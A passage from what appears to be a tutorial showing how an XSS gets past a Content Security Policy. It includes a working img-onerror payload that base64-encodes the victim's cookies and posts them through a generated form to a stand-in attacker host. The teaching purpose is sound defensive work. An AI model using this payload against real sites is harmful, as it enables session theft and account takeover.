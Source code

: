 ![option-b-03](printscreens/csp-option-b-03.png)

😱 Damn, the XSS is still present, our CSP only block loading remote script and sending data other domains...

🙂 OK, the attacker can execute action on behalf of the current user but, at least, **it cannot send data to a domain under its control!**

#### The deeper disillusion

😰 Suddenly, a member of the team said: *Are we sure about such statement?*

😈 Let's try with such malicious comment for a new review:

```html
<img src='x' onerror='let cke=btoa(document.cookie);let bdy=document.getElementsByTagName("body")[0];let frm=document.createElement("form");frm.setAttribute("method","post");frm.setAttribute("action","//attacker.local:9000/listener.php");let prm=document.createElement("input");prm.setAttribute("type","hidden");prm.setAttribute("name","data");prm.setAttribute("value",cke);frm.appendChild(prm);bdy.appendChild(frm);frm.submit();'>
```

👀 JavaScript code injected:
